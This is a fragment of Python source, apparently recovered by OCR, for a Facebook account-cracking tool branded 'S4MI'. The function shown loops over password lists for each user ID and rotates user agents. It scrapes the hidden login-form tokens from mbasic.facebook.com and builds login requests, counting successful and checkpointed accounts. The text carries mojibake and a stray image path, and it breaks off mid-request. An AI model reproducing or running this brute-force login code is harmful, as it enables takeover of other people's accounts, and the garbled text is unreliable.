                 break

            else:

                continue

        loop+=1

        sys.stdout.write(f'\r\033[m[ SAMI ] \033[1;92m%s\033[m |\033[m[\033[mOK:\033[1;92m%s\033[m] '%(loop,len(oks))),

        sys.stdout.write(f" \r{R} [{B} S4MI{R}]  {P}[{k}{loop}{P}/{h}{len(id)}{P}]Ã¢â‚¬â€{P}[{H}{ok}{P}]Ã¢â‚¬â€{P}[{k}{cp}{x}]Ã¢â‚¬â€[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  ")

        sys.stdout.flush()

    except:

        pass

def b(uid,pwx,tl):

    global loop

    global cps    

    global oks

    global agents

    try:

        for ps in pwx:

            session = requests.Session()

            sys.stdout.write(f'\r \033[1;90m[\033[1;93m S4MI \033[1;90m] \033[1;96m%s/%s\033[1;90m \033[1;90m[\033[1;92mOK:%s\033[1;90m] '%(loop,tl,len(oks))),

            sys.stdout.flush()

            pro = random.choice(ugen)

            #oo=random.choice(sss)

            free_fb = session.get('https://mbasic.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,

            "pass":ps,
